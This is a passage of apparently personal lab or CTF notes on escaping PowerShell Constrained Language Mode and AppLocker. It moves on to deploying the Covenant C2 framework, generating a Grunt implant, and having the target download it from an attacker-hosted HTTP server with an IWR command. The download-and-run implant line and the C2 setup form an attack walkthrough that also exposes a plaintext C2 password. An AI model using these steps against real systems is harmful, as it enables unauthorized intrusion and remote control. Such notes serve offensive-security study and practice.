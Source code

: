 
```
 $ExecutionContext.SessionState.LanguageMode
```
![[Pasted image 20240411235342.png]]

```
Constrained Language Mode
```

So let's see how to bypass it to get the full access.

So if a group policy is restricting us from executing a program will simply bypass it using AppLocker bypass list.

https://github.com/api0cradle/UltimateAppLockerByPassList

![[Pasted image 20240412082454.png]]

Always keep in mind that in these situation these location are whitelisted means we might have write permissions in this.
```
C:\Windows\Temp
```


Will install a C2 framework (i.e. [Covenant](https://github.com/cobbr/Covenant))
Clone the repository
```
git clone --recurse-submodules https://github.com/cobbr/Covenant
```

```
cd Covenant/Covenant
```

```
 docker build -t covenant .
```

I don't have docker so we have to install it as well

```
sudo apt install docker.io
```

```
sudo apt install docker-compose
```

![[Pasted image 20240412091251.png]]

```
docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -v $(pwd)/Data:/app/Data covenant --username singh
```

```
testing123
```

![[Pasted image 20240412101938.png]]

We have installed Convenant in no time with the help of docker.

These both things are virtually the same (i.e. Covenant is server aspects and elite is the client that connects to the server)

I tried installing Elite but it's deprecated Temporarily.

```
docker ps -a
```

```
docker rm covenant
```


![[Pasted image 20240429211001.png]]

Will go in Launchers and select Binary
![[Pasted image 20240429211101.png]]

Will click on generate
![[Pasted image 20240429211518.png]]

Will Login to the PS shell and will upload our luncher file and try to run it and see if we get a connection or not.

I simply hosted a python3 server and downloaded the file simply
```
 python3 -m http.server 8080
```
![[Pasted image 20240429212547.png]]

```
IWR -Uri http://10.10.16.20:8080/GruntHTTP.exe -OutFile pleasesub.exe
```
![[Pasted image 20240429212509.png]]

Grunt
```
help
```
![[Pasted image 20240429212708.png]]

We have different commands like Rubeus , Seat Belt
![[Pasted image 20240429212821.png]]

